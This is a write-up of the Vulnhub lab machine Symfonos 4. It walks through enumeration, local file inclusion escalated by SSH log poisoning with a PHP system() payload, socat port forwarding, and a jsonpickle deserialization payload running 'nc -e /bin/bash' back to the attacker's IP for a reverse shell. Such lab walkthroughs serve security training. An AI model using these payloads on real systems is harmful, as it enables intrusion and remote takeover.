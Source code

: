 ```yaml
---
"title": "Vulnhub - Symfonos 4"
"date": 2020-03-12
"tags": ["medium", "port_forward", "log-poisoning", "mysql"]
"keywords": ["medium", "port_forward", "log-poisoning", "mysql"]
"author": "Ghostbyt3"
"description": "Since there is no other interesting Ports Open, I started Gobuster\
  \ on the webpage."
"featured_image": "/img/symfonos4/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



Today, We are going to pwn Symfonos 4 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach people the importance of trying harder.
```
Download Link : [https://www.vulnhub.com/entry/symfonos-4,347/](https://www.vulnhub.com/entry/symfonos-4,347/)

Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8C:D3:8B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

## HTTP:

Normal webpage with an image like always.
![Untitled](/img/symfonos4/1.png)

Since there is no other interesting Ports Open, I started Gobuster on the webpage.

Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.1.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html
[+] Timeout:        10s
===============================================================
2020/03/12 19:39:13 Starting gobuster
===============================================================
/index.html (Status: 200)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/sea.php (Status: 302)
/atlantis.php (Status: 200)
/server-status (Status: 403)
/gods (Status: 301)
===============================================================
2020/03/12 19:41:23 Finished
===============================================================
```

``/gods``

![Untitled](/img/symfonos4/2.png)

Downloaded all log files to my machine.[br/](br/)
![Untitled](/img/symfonos4/3.png)

``hades.log``

```
Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.
```

``poseidon.log``

```
Poseidon was the god of the sea, earthquakes and horses. Although he was officially one of the supreme gods of Mount Olympus, he spent most of his time in his watery domain. Poseidon was brother to Zeus and Hades. These three gods divided up creation.
```


``zeus.log``

```
Zeus is the god of the sky, lightning and thunder in Ancient Greek religion and myth, and king of the gods on Mount Olympus. Zeus is the sixth child of Kronos and Rhea, king and queen of the Titans.
```

``/atlantis.php``

![Untitled](/img/symfonos4/4.png)

``/sea.php``

Whenever I open ``/sea.php`` it redirects to ``/atlantis.php``. Lets capture the request in burp.

``302 Found`` which is redirection, We can stop a redirection using burp.
![Untitled](/img/symfonos4/5.png)

All we need to do is change ``302 Found`` to ``200 Ok`` For that open ``Proxy -> Options -> Match and Replace``.

![Untitled](/img/symfonos4/6.png)

Now If I visit ``/sea.php`` it displays a new page.
![Untitled](/img/symfonos4/7.png)

So If I select a GOD the url changes to ``/sea.php?file=hades`` maybe Local File Inclusion.
![Untitled](/img/symfonos4/8.png)

But I can't view ``/etc/passwd`` so I searched for any log files and I got ``/var/log/auth`` We dont need to represent ``.log`` because we already saw those ``poseidon.log, zeus.log and hades.log`` in ``/gods`` with extension but in ``/sea.php`` it shows the same file even without the extensions.

![Untitled](/img/symfonos4/9.png)

When seeing those Log files it shows ``OpenSSH`` so we can do ``SSH Log Poisoning``

Reference : https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

```ssh '[?php system($_GET['c']); ?](?php system($_GET['c']); ?)'@192.168.1.136```

![Untitled](/img/symfonos4/10.png)

Now its injected, Time to get reverse shell.

![Untitled](/img/symfonos4/11.png)

When checking ``/var/www/html/atlantis.php`` found ``mysql`` credentials.

![Untitled](/img/symfonos4/12.png)

``root : yVzyRGw3cG2Uyt2r``

I logged with those and got admin hash.[br/](br/)
![Untitled](/img/symfonos4/13.png)

MySql Commands: http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm

I tried cracking the hash but I can't. So I skipped that and started looking for other things.

I started looking around in the directories and found ``/opt/code`` I found a python code. I came to know its ``jsonpickle`` so it may be running on the background.
![Untitled](/img/symfonos4/55.png)

Uploaded My Enumeration Script and Found this 

![Untitled](/img/symfonos4/14.png)

- Port 3306 - MySQL
- Port 8080 - Webpage (Maybe)

We can’t see port ``8080`` directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

I used ``socat`` method for port forwarding. We can also use ``SSH`` interactive shell for port forwarding too. (https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/)

```
socat TCP-LISTEN:8081,fork TCP:127.0.0.1:8080
```

![Untitled](/img/symfonos4/15.png)

Now I can visit ``http://192.168.1.136:8081``, It displays this page 

![Untitled](/img/symfonos4/16.png)

When I click the Main page it directs to 

![Untitled](/img/symfonos4/17.png)

But ``192.168.1.136:8081/whoami`` is suspecious, So I intercept the request in Burp 

![Untitled](/img/symfonos4/18.png)

``username`` looks like base64encoded so I decoded that 

![Untitled](/img/symfonos4/19.png)

So this is the thing we saw in ``/opt/code``

Later I found this [article](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

So I did some changes in the string and encoded this to base64.

```
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["/usr/bin/nc -e /bin/bash 192.168.1.103 1234"]}, null, null, null]}
```

Gave that base64 encoded to ``username`` and started my Listener and got shell.

![Untitled](/img/symfonos4/20.png)

I'm Root!!

!![Untitled](/img/symfonos4/21.png)